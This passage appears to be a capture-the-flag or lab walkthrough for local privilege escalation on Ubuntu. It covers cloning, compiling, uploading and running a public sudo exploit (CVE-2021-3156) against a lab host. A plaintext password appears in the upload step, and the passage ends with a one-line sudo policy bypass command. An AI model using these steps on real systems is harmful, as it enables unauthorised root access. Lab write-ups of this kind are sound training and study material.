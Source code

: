 cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"

2) Upload exploit

git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c

mkdir CVE-2021-3156

scp sudo-hax-me-a-sandwich CVE-2021-3156 barry@10.129.105.45:/home/barry/CVE-2021-3156/
i_l0ve_s3cur1ty!

cd CVE-2021-3156

./sudo-hax-me-a-sandwich


3) Run exploit

./sudo-hax-me-a-sandwich

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

4) Choose option depending on OS version

Here :
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"

So :
./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[sudo] password for barry: 
barry is not in the sudoers file.  This incident will be reported.


## Sudo Policy Bypass

sudo -u#-1 id

